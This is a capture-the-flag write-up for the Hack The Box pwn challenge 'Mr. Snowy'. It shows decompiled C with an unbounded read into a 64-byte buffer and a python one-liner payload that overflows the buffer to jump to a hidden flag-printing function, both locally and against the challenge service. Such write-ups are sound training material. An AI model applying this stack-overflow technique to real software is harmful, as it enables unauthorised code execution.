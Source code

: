 #Pwn :: Mr. Snowy

###Challenge Files: [pwn_mr_snowy.zip](pwn_mr_snowy.zip)

For this challenge, we are provided with an executable, **mr_snowy**, an example flag.txt, and also a networked service to connect to. Running the program shows a little text adventure game involving a snowman that is a little *sus*. However, you find that basically any available choice runs into a deadend. So there has to be some way to get where we wanna be.

![mr_snowy](img/1.png)

Opening the executable in Ghidra, we can see a function called **deactivate_camera()** that prints the flag, however it is not referenced anywhere else in the program.

```c 
void deactivate_camera(void)

{
  char acStack104 [48];
  FILE *local_38;
  char *local_30;
  undefined8 local_28;
  int local_1c;
  
  local_1c = 0x30;
  local_28 = 0x2f;
  local_30 = acStack104;
  local_38 = fopen("flag.txt","rb");
  if (local_38 == (FILE *)0x0) {
    fwrite("[-] Could not open flag.txt, please conctact an Administrator.\n",1,0x3f,stdout);
                    /* WARNING: Subroutine does not return */
    exit(-0x45);
  }
  fgets(local_30,local_1c,local_38);
  puts("\x1b[1;32m");
  fwrite("[+] Here is the secret password to deactivate the camera: ",1,0x3a,stdout);
  puts(local_30);
  fclose(local_38);
  return;
}
```

So this seems like a classic target for a buffer overflow to redirect execution to the target function.

The vulnerability comes in the **investigate()** function, where the program tries to read 264 bytes from stdin into a buffer that is only 64 bytes:

```c 
void investigate(void)

{
  int iVar1;
  char local_48 [64];  // <-------- buffer
  
  fflush(stdout);
  printstr(&DAT_00401878);
  fflush(stdout);
  read(0,local_48,0x108);    // <--------- too big
  iVar1 = atoi(local_48);
  if (iVar1 == 1) {
    puts("\x1b[1;31m");
    printstr("[!] You do not know the password!\n[-] Mission failed!\n");
                    /* WARNING: Subroutine does not return */
    exit(0x16);
  }
  iVar1 = atoi(local_48);
  if (iVar1 == 2) {
    puts("\x1b[1;31m");
    printstr(
            "[!] This metal seems unbreakable, the elves seem to have put a spell on it..\n[-] Mission failed!\n"
            );
                    /* WARNING: Subroutine does not return */
    exit(0x16);
  }
  fflush(stdout);
  puts("\x1b[1;31m");
  fflush(stdout);
  puts("[-] Mission failed!");
  fflush(stdout);
  return;
}
```

So the payload needs to go to the investigate menu, overflow the buffer, and then redirect the return to the target function which is at 0x401165 (they're nice and don't use ASLR)

For this I used:

```
python3 -c "print('1\x00'+'A'*64+'\x00'*8+'\x65\x11\x40\x00',end='')" | ./mr_snowy
```

The first 1 and null byte are read as a C-string and advance us to the next menu, then we fill the buffer, plus 8 bytes to reach the return address, and then our target address function in reverse byte order. Notice I made sure not to print a newline (since that goes to the payload as well).

![mr_snowy](img/2.png)

Sending this same payload to the network service we're trying to pwn, has the same result but gives us the real flag:

![mr_snowy](img/3.png)

```HTB{n1c3_try_3lv35_but_n0t_g00d_3n0ugh} ```